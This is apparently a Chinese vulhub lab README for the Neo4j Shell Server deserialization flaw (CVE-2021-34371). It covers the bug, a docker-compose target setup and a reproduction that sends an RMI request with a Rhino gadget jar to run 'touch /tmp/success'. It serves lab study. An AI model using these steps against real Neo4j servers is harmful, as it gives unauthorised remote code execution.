 # Neo4j Shell Server 反序列化漏洞 CVE-2021-34371

## 漏洞描述

Neo4j是一个开源图数据库管理系统。

在Neo4j 3.4.18及以前，如果开启了Neo4j Shell接口，攻击者将可以通过RMI协议以未授权的身份调用任意方法，其中`setSessionVariable`方法存在反序列化漏洞。因为这个漏洞并非RMI反序列化，所以不受到Java版本的影响。

在Neo4j 3.5及之后的版本，Neo4j Shell被Cyber Shell替代。

参考链接：

- https://www.exploit-db.com/exploits/50170
- https://github.com/mozilla/rhino/issues/520

## 环境搭建

如果你使用Linux或OSX系统，可以执行如下命令启动一个Neo4j 3.4.18：

```
TARGET_IP=<your-ip> docker-compose up -d
```

其中，环境变量`TARGET_IP`需要制定靶场环境的IP地址。

如果你是Windows系统，请直接修改`docker-compose.yml`，指定`TARGET_IP`环境变量的值。

服务启动后，访问`http://your-ip:7474`即可查看到Web管理页面，但我们需要攻击的是其1337端口，这个端口是Neo4j Shell端口，使用RMI协议通信。

## 漏洞复现

使用[参考链接](https://www.exploit-db.com/exploits/50170)中的Java RMI客户端，集成基于Rhino的[Gadget](https://github.com/vulhub/vulhub/blob/master/neo4j/CVE-2021-34371/rhino_gadget)，发送RMI请求：

```
$ mvn install
$ cp target/rhino_gadget-1.0-SNAPSHOT-fatjar.jar ./
$ java -jar rhino_gadget-1.0-SNAPSHOT-fatjar.jar rmi://192.168.174.128:1337 "touch /tmp/success"
```

![image-20220226233047245](images/202202262330323.png)

可见，`touch /tmp/success5`已成功执行：

![image-20220226233111576](images/202202262331632.png)